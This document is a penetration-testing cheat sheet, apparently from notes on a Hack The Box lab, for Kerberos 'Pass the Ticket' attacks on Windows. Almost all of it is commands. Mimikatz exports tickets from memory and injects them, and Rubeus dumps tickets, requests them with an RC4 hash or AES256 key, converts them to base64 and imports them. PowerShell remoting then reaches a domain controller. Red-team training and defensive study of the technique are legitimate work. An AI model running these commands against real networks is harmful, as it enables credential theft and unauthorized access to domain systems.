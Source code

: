 ### Pass the Ticket

#### Windows

**Mimikatz**
````
- Export Tickets -
# privilege::debug
# sekurlsa::tickets /export

> dir *.kirbi
[0;6c680]-2-0-40e10000-plaintext@krbtgt-domain.kirbi
[0;3e7]-0-2-40a50000-DC01$@cifs-DC01.domain.kirbi
----------------------------------------------------------------------------------
- Pass the Ticket -
# privilege::debug
# kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
----------------------------------------------------------------------------------
- Pass The Ticket with PowerShell Remoting -
- Mimikatz -
# privilege::debug
# kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
> powershell
> Enter-PSSession -ComputerName DC01
````
**Rubeus**
````
- Export Tickets -
> Rubeus.exe dump /nowrap
----------------------------------------------------------------------------------
- Pass the Ticket -
> Rubeus.exe asktgt /domain:<domain> /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
Note that now it displays Ticket successfully imported!.
----------------------------------------------------------------------------------
Another way is to import the ticket into the current session using the .kirbi file from the disk.
> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
----------------------------------------------------------------------------------
Pass the Ticket - Base64 Format
Convert .kirbi to Base64 Format
> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
> Rubeus.exe ptt /ticket:<base64>
----------------------------------------------------------------------------------
- Pass The Ticket with PowerShell Remoting -
> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
> Rubeus.exe asktgt /user:<user> /domain:<domain> /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
> powershell
> Enter-PSSession -ComputerName DC01
````
